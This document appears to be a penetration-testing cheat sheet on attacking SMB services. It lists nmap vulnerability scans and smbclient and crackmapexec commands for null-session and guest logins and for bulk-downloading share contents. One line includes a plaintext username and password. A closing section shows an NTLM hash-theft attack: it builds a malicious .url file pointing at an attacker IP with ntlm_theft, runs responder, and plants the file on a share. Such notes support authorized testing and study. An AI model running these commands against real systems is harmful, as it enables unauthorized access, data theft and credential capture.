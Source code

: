 # 139,445 - SMB

### Nmap&#x20;

```sh
nmap -v -p 139,445 -oG smb.txt 192.168.50.1-254
```

```sh
ls -1 /usr/share/nmap/scripts/smb*
```

{% code overflow="wrap" %}
```sh
nmap -v -p 139,445 --script smb-os-discovery 192.168.50.152
```
{% endcode %}

{% code overflow="wrap" %}
```shell
sudo nmap 192.168.1.4 -sV -p 139,445 --script="smb-enum-*"
sudo nmap 192.168.1.4 -sV -p 139,445 --script="smb-vuln-*”
```
{% endcode %}

#### a

```
sudo nbtscan -r 192.168.50.0/24
```

```sh
net view \\dc01 /all
```

### smbclient

List Available SMB Shares:

```sh
smbclient -L \\\\<IP>\\
smbclient -L \\\\<IP>\\C$
smbclient -U '' -L \\\\<IP>\\
```

Connect to share (null login)

```sh
smbclient //$IP/IPC$ -U '' 
```

List shares (as guest):

```
smbclient -U guest -L 192.168.0.1
```

List shares (as user):

```sh
smbclient \\\\192.168.0.1\\Users -U c.smith
```

Download all files from a directory:

{% code overflow="wrap" %}
```sh
smbclient '\\server\share' -N -c 'prompt OFF;recurse ON;cd 'path\to\directory\';lcd '~/path/to/download/to/';mget *'
```
{% endcode %}

List streams:

{% code overflow="wrap" %}
```sh
smbclient \\\\192.168.0.1\\Data -U John -c 'allinfo "\Users\John\file.txt"'
```
{% endcode %}



### crackmapexec

SMB Enumeration:

<pre class="language-sh"><code class="lang-sh">crackmapexec smb &#x3C;IP>
<strong>crackmapexec smb &#x3C;IP> --users
</strong>crackmapexec smb &#x3C;IP> --shares
</code></pre>

Null and Default Guest Logins:

```sh
crackmapexec smb <IP> --shares -u ' ' -p ''
crackmapexec smb <IP> --shares -u '' -p ''
crackmapexec smb <IP> -u ' ' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
```

Local Authentication:

```
crackmapexec smb <IP> -u <user> -p <pass> --local-auth
```

Domain Authentication:

```
crackmapexec smb <IP> -u <user> -p <pass>
```

{% code overflow="wrap" %}
```
crackmapexec smb 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --shares
```
{% endcode %}



### Get a shell:

Use [ntlm\_theft](https://github.com/Greenwolf/ntlm_theft) to create a malicious `.url` file.

```sh
python3 ntlm_theft.py -g url -s 10.11.63.57 -f test
```

Start responder:

```sh
sudo responder -I tun0
```

Upload shell to share:

```sh
smb: \onboarding\> put "test-(icon).url"
```

The wait for hash to be outputted to responder

